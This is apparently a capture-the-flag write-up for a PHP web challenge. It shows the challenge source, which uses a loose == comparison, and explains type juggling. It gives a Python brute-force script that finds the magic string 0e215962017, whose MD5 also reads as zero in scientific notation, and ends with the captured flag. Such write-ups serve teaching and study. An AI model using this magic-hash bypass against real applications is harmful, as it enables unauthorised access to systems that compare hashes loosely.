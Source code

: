 # MD5 Games 1, Web, 50pts

## Problem

10 years has passed since MD5 was broken, yet it is still frequently used in web applications, particularly PHP powered applications (maybe because there's a function after it?). Break it again to prove the point!

## Solution

We get simple form, where we can put our string.

Also, we are able to see PHP source of the challenge:

```php
<?php
if (isset($_GET['src']))
    highlight_file(__FILE__) and die();
if (isset($_GET['md5']))
{
    $md5=$_GET['md5'];
    if ($md5==md5($md5))
        echo "Wonderbubulous! Flag is [here goes a flag]"; //.require __DIR__."/flag.php";
    else
        echo "Nah... '",htmlspecialchars($md5),"' not the same as ",md5($md5);
}


?>
<p>Find a string that has a MD5 digest equal to itself!</p>
<form>
    <label>Answer: </label>
    <input type='text' name='md5' />
    <input type='submit' />
</form>

<a href='?src'>Source Code</a>
```

The only way we can get the flag is to pass string, which MD5 hash is exact the same as the string itself. Because such string does not exists (or I don't know one) we have to find another solution.

The only way to solve this challenge is to exploit PHP type juggling (as ```$md5``` is compared with ```md5($md5)``` with ```==``` instead of strict comparision operator ```===```).

The easiest way to do this is to provide a number starting with ```0e```, which MD5 hash begins with ```0e``` as well and contains only numbers. 

Thats because such comparision will return ```true```:


```php
// test.php
<?php
echo intval('0e123' == '0e999'); // result 1, which means TRUE
echo "\n";
echo intval('0e123' === '0e999'); // result 0, which means FALSE
echo "\n";
```

Result of above script will be:

```
shreyansh:~/ctf/2017/HackDatKiwi_CTF_2017 $ php -e test.php
1
0
```

As we can see, comparision with ```==``` returned ```true```.


So we have to find a number, starting from ```0e```, which MD5 hash will contain __only digits__ (both string and its MD5 hash have to be numbers typed in scientific notation), which is indicated by ```0e``` at the beginning; any sign other than digit will cause than one of them can't be casted to number and condition returns ```false```).


My approach to this challenge was to use simple brute force. I've created Python script, which iterates over incremented numbers with ```0e``` as a prefix, calculate MD5 hash of it and checks if that hash starts with ```0e``` and contains only digits after.

Not very efficient solution, but worked fine:

```python
#!/usr/bin/env python
import hashlib
import re

prefix = '0e'


def breakit():
    iters = 0
    while 1:
        s = prefix + str(iters)
        hashed_s = hashlib.md5(s).hexdigest()
        iters = iters + 1
        r = re.match('^0e[0-9]{30}', hashed_s)
        if r:
            print "[+] found! md5( {} ) ---> {}".format(s, hashed_s)
            print "[+] in {} iterations".format(iters)
            exit(0)

        if iters % 1000000 == 0:
            print "[+] current value: {}       {} iterations, continue...".format(s, iters)

breakit()

```


When I run it, after couple of minutes and __almost 216 millions__ of iterations, I get the string which gave me the flag:


```
[+] current value: 0e196999999       197000000 iterations, continue...
[+] current value: 0e197999999       198000000 iterations, continue...
[+] current value: 0e198999999       199000000 iterations, continue...
[+] current value: 0e199999999       200000000 iterations, continue...
[+] current value: 0e200999999       201000000 iterations, continue...
[+] current value: 0e201999999       202000000 iterations, continue...
[+] current value: 0e202999999       203000000 iterations, continue...
[+] current value: 0e203999999       204000000 iterations, continue...
[+] current value: 0e204999999       205000000 iterations, continue...
[+] current value: 0e205999999       206000000 iterations, continue...
[+] current value: 0e206999999       207000000 iterations, continue...
[+] current value: 0e207999999       208000000 iterations, continue...
[+] current value: 0e208999999       209000000 iterations, continue...
[+] current value: 0e209999999       210000000 iterations, continue...
[+] current value: 0e210999999       211000000 iterations, continue...
[+] current value: 0e211999999       212000000 iterations, continue...
[+] current value: 0e212999999       213000000 iterations, continue...
[+] current value: 0e213999999       214000000 iterations, continue...
[+] current value: 0e214999999       215000000 iterations, continue...
[+] found! md5( 0e215962017 ) ---> 0e291242476940776845150308577824
[+] in 215962018 iterations
shreyansh:~/ctf/2017/HackDatKiwi_CTF_2017 $
```

I've put __0e215962017__ into the form and we get:

**Wonderbulous! Flag is zr8cvFTfhd3vcxzH**
